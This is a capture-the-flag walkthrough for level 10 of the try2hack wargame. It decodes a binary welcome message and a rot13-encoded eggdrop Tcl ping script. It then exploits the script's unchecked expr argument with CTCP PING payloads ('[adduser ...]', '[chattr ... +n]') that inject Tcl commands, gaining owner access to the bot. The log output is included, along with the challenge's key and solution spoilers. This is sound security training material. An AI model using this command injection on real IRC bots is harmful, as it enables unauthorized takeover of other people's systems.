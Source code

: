 #### Level 10

After you have done level 9 you get an IRC channel name and password. 
```
Good job! You can find Level 10 at our IRC channels. Go to #try2hack.level10 on irc.efnet.org and use 'yu0aertehbomb' as key to continue. See the <a href="../chat/">chat</a> page for more information.
```

After joining you receive a binary welcome message.
```
0100111001101001011000110110010100100000011010100
110111101100010001011100010000001001110011011110111011100100000011101000111100101110000011001010010000
000100111001011110110110101110011011001110010000001010100010100100101100100110010010010000100000101000
011010010110010000001110011011010000110111101110111011000100111010101100111001001110010000001110100011
011110010000001110011011001010110010100100000011101000110100001100101001000000110001001
```

Just go to my favorite binary encoding/decoding site http://www.nickciske.com/tools/binary.php and decode it. 

The result:
```Nice job. Now type '/msg TRY2HACK showbug' to see the bug```

As you can see, you get a command that you must write to the bot to show you the bug. This is what the bot writes back:
```
ovaq pgpe - CVAT pgpe:cvatercyl
cebp pgpe:cvatercyl {avpx hubfg unaq qrfg xrl net} {
frg qhe [rkce [havkgvzr] - $net]
chgfrei "ABGVPR $avpx :Lbhe cvat ercyl gbbx $qhe frpbaqf"}
```

It looked like a script, but the characters were all messed up, so thought this was rot13, which replaces all chars with the char 13 places to the right in the alphabet.
So the only thing I needed was to rot13 it again (26 chars in the alphabet. 13+13):
```php
<?php

print str_rot13('ovaq pgpe - CVAT pgpe:cvatercyl
cebp pgpe:cvatercyl {avpx hubfg unaq qrfg xrl net} {
frg qhe [rkce [havkgvzr] - $net]
chgfrei "ABGVPR $avpx :Lbhe cvat ercyl gbbx $qhe frpbaqf"}');

?>
```

Which results in:
```
bind ctcr - PING ctcr:pingreply
proc ctcr:pingreply {nick uhost hand dest key arg} {
    set dur [expr [unixtime] - $arg]
    putserv "NOTICE $nick :Your ping reply took $dur seconds"}
```
After almost 24 hours, x number cups of coffee, trying and failing, hours googling and reading on eggdrop I finally made it!
The argument sent with the ping are in most IRC clients a timestamp, but you can send what you want.
The bot lacks of security, because it doesn't check $arg for bad code. Time to exploit.

I tried sending raw data with the /quote command but that didn't work.
I then come across the /nctcp command in Irssi (/ctcpreply for mIRC) which I noticed sent some stuff along with the data that seemed to make a difference. I think it was some UTF \x00\x01 thing.

Worked:
```
/nctcp LEVEL10-xxx PING [adduser yournick *!yourident@*]
/nctcp LEVEL10-xxx PING [chattr yournick +n]
```

I changed the password for the bot to '123456' by doing `/msg LEVEL10-xxx pass 123456`

```
[notice(LEVEL10-605)] PING [adduser asdf *!qwer@*]
-LEVEL10-605(try2hack@try2hack.bot) - Your ping reply took 123456789 seconds
[notice(LEVEL10-605)] PING [chattr asdf +n]
-LEVEL10-605(try2hack@try2hack.bot) - Your ping reply took 123456789 seconds
<asdf> pass 123456
-LEVEL10-605(try2hack@try2hack.bot) - Password changed to '123456'
```

Then start a DCC chat with the bot `/dcc chat LEVEL10-xxx`. The bot will msg you with the URL to level 11, along with this:

```
<LEVEL10-605> Enter your password.
<asdf> 123456
<LEVEL10-605>
<LEVEL10-605> Connected to LEVEL10-0, running eggdrop v1.6.19
<LEVEL10-605>
<LEVEL10-605> Local time is now 19:43
<LEVEL10-605>
<LEVEL10-605> NOT! Welcome in LEVEL10-0, asdf!
<LEVEL10-605> ****************************************************
<LEVEL10-605> *             AUTO LOG OUT!                        *
<LEVEL10-605> ****************************************************
<LEVEL10-605>
<LEVEL10-605> -=- poof -=-
<LEVEL10-605> You've been booted from the bot by LEVEL10-0
-!- Irssi: Closing query with =LEVEL10-605
```

If the DCC chat doesn't work, then open ports 3713 to 3723, go around your router or figure out something else.

